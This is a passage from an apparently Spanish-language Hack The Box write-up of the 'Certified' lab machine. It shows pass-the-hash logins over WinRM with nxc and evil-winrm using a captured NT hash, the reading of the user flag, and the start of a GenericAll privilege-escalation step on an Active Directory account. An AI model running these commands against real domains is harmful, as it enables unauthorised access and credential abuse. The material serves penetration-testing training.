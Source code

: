 Una vez obtenemos el hash NT, podemos usarlo para hacer PassTheHash para conectarnos a través del protocolo `winrm` (Windows Remote Management), ya que la cuenta `management_svc` forma parte del grupo `Remote Management Users`

~~~ bash
nxc winrm 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [+] certified.htb\management_svc:a091c1832bcdd4677c28b5a6a1295584 (Pwn3d!)
~~~

Pone `pwned`, con esto ya sabremos que nos podemos conectar con una consola de `powershell`. Nos conectamos con `evil-winrm` haciendo PassTheHash

~~~ bash
evil-winrm -i 10.10.11.41 -u 'management_svc' -H 'a091c1832bcdd4677c28b5a6a1295584'
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\management_svc\Documents> type ..\Desktop\user.txt
3b15...
~~~



# Escalada de privilegios
---
## Abusing `GenericAll` Privileges (AD-DACL)

Si exploramos la cuenta `management_svc` en `Node Info` > `Outbound Object Control`, podemos darnos cuenta que posee privilegios `GenericAll` sobre la cuenta `ca_operator`, esto permite modificar cualquier atributo de la cuenta

![image-center](/assets/images/posts/certified-bloodhound-generic-all.png){: .align-center}
